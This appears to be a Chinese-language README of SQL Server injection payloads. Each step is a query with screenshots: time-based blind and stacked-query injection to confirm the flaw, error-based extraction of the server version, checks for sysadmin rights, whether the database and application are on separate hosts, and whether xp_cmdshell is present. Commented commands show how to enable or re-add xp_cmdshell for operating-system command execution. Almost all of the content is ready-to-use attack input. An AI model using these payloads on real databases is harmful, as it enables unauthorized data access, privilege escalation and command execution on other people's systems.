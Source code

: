 ### 0、堆叠查询+时间盲注 检测漏洞是否存在
```
select session_id from sys.dm_exec_requests where session_id=12; waitfor delay '0:0:5'--
```
![image](./pic/0.png)

### 1、报错注入 查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
![image](./pic/1.png)

### 2、堆叠查询+时间盲注 查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
![image](./pic/2.png)

### 3、堆叠查询+时间盲注 查询是否站库分离
```
select session_id from sys.dm_exec_requests where session_id=12;if(host_name()=@@servername)waitfor delay '0:0:5';--

--host_name()：连接数据库管理系统的工作站所在机器的计算机名
--@@servername：数据库管理系统所在机器的计算机名
--参考链接：
--https://docs.microsoft.com/en-us/sql/t-sql/functions/host-name-transact-sql?view=sql-server-ver15
--https://docs.microsoft.com/en-us/sql/t-sql/functions/servername-transact-sql?view=sql-server-ver15
```
![image](./pic/3.png)

### 4、堆叠查询+时间盲注 查询是否开启xp_cmdshell
```
select session_id from sys.dm_exec_requests where session_id=12;if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5'--

--开启xp_cmdshell：
--EXEC sp_configure 'show advanced options',1;
--RECONFIGURE;
--EXEC sp_configure 'xp_cmdshell',1;
--RECONFIGURE;

--关闭xp_cmdshell：
--EXEC sp_configure 'show advanced options',1;
--RECONFIGURE;
--EXEC sp_configure 'xp_cmdshell',0;
--RECONFIGURE;

--添加xp_cmdshell：
--exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'

--删除xp_cmdshell：
--exec sp_dropextendedproc 'xplog70.dll'
```
![image](./pic/4.png)
